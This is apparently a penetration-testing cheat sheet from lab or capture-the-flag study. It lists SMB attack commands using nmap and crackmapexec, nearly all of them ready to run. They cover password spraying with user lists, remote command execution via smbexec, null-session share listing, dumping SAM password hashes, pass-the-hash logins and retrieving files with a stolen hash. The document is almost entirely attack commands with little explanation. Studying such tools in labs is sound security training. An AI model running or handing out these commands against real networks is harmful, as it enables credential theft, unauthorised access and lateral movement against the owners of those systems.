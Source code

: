 > Enumerate users

```
nmap -sU -sS --script=smb-enum-users <IP>
```

> Crackmapexec

Syntax:

```
crackmapexec <protocol> <IP> -u <user> -p '<password>'
```

Example password attack:

```
crackmapexec <protocol> <IP> -u <userList> -p '<password>'
```

More examples: 

```
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password' -x 'whoami' --exec-method smbexec
```

```
crackmapexec smb 10.129.14.128 --shares -u '' -p ''
```

```
sudo crackmapexec smb 10.129.18.11 -u "user" -p /home/user/Desktop/pass.txt -d ATTCSVC-LINUX
```

If the type command doesn't work to see files, you can use get file:

```
crackmapexec smb 10.129.84.255 -u Administrator -H 7796ee39fd3a9c3a1844556115ae1a54 --get-file Users/Administrator/Desktop/flag.txt /home/flag
```

Enumerating Users

```
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --users
```

Enumerating Logged-on Users

```
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

Extract Hashes from SAM Database

```
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

Pass-the-Hash (PtH)

```
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```
